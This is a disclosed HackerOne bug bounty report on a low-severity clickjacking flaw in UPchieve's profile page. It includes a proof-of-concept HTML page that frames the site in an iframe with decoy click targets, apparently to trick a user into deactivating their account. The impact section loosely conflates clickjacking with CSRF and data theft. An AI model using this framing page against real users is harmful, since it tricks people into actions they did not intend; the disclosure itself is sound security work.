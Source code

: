 # CLICKJACKING LEADS TO DEACTIVATE ACCOUNT

## Report Details
- **Report ID**: 1301113
- **URL**: https://hackerone.com/reports/1301113
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-08-12T07:03:16.272Z
- **Disclosed**: 2021-08-16T17:21:19.802Z

## Reporter
- **Username**: scianto05
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: upchieve

## Vulnerability Information
Hello UPCHEIVE SECURITY TEAM,

I'm Anto

Vulnerability :
Clickjacking in (https://hackers.upchieve.org/profile)

Steps to Reproduce:
1). Create a HTML file with following code

<!DOCTYPE HTML>
    <html lang="en-US">
    <head>
    <meta charset="UTF-8">
    </head>
    <body>
    <p>Click the place where its shows </p>
    <div style="position: absolute; left: 1150px; top: 180px; pointer-events: none;">Click 1</div>
    <div style="position: absolute; left: 350px; top: 580px; pointer-events: none;">Click 2</div>
    <div style="position: absolute; left: 800px; top: 1650px; pointer-events: none;">Click 2</div>
<iframe height="3000" width="1300" scrolling="no" src="https://hackers.upchieve.org/profile"></iframe>
  </body>   
  </html>

2), Save and Open it on your browser the page will be appear.

## Impact

An attacker can host this domain in other evil site by using iframe and if a user fill the given filed it can directly redirect as logs to attacker and after its redirect to your web server.. its lead to steal user information too and use that host site as phishing of your site its CSRF and Clickjacking.

Regards,
Anto

## Attachments
No attachments

